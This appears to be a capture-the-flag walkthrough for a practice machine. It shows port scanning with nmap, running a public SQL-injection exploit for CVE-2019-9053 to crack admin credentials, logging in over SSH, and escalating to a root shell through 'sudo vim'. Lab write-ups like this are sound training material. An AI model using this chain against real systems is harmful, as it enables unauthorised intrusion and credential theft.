 ### How many services are running under port 1000?
```BASH
nmap -sV -p1-1000 VICTIM_IP_ADRESS
```
`-sV` - determine service/version info  

`-p1-1000` - strictly ports 1 to 1000  

![image](https://github.com/user-attachments/assets/a564f521-f758-4386-8b7e-fdf302a5033d)
<pre>2</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is running on the higher port?
```BASH
nmap -sV -p- VICTIM_IP_ADRESS
```
![image](https://github.com/user-attachments/assets/83e955f4-0545-4867-b272-1641190e728c)

`-p-` - scan all ports
<pre>ssh</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's the CVE you're using against the application?
<pre>CVE-2019-9053</pre>

<span style="line-height:0.5;">&nbsp;</span>

### To what kind of vulnerability is the application vulnerable?
<pre>SQLi</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's the password?
Download the Python exploit from [exploit-db](https://www.exploit-db.com/exploits/46635) and save it as exploit.py. Run the exploit with cracking enabled.
```BASH
python2 exploit.py -u http://VICTIM_IP_ADRESS/simple --crack -w /usr/share/wordlists/rockyou.txt
```
The script will extract and crack the admin credentials: 

![image](https://github.com/user-attachments/assets/1887f377-bd6a-4fc2-ad81-c1ceea2b7463)

<span style="line-height:0.5;">&nbsp;</span>

### Where can you login with the details obtained?
<pre>ssh</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's the user flag?
```BASH
ssh mitch@VICTIM_IP_ADRESS -p 2222
```
![image](https://github.com/user-attachments/assets/79ea498b-ab33-4b45-83f8-da8ef18a8dcf)
<pre>G00d j0b, keep up!</pre>

<span style="line-height:0.5;">&nbsp;</span>

### Is there any other user in the home directory? What's its name?
```BASH
cd ..
ls
```
<pre>sunbath</pre>
<span style="line-height:0.5;">&nbsp;</span>

### What can you leverage to spawn a privileged shell?
Run the following command to check sudo permissions.
```BASH
sudo -l
```
![image](https://github.com/user-attachments/assets/d0586f88-c5ac-4e2d-ab21-b0fc2ad6dfaa)  

This means user mitch can execute vim as root without a password.
<pre>vim</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's the root flag?
To escalate privileges using vim, go to [GTFOBins](https://gtfobins.github.io/) and search vim. Go to the 'Sudo' section, and if you can run vim as root via sudo, spawn a root shell by running:
```BASH
sudo vim -c ':!/bin/sh'
```
This command opens vim and immediately executes `/bin/sh` from within it, giving you a root shell. Exit Vim to open root shell.  

![image](https://github.com/user-attachments/assets/ac6c31d0-bea6-4468-8ec8-5fc75421bde2)

CTF flag
<pre>W3ll d0n3. You made it!</pre>

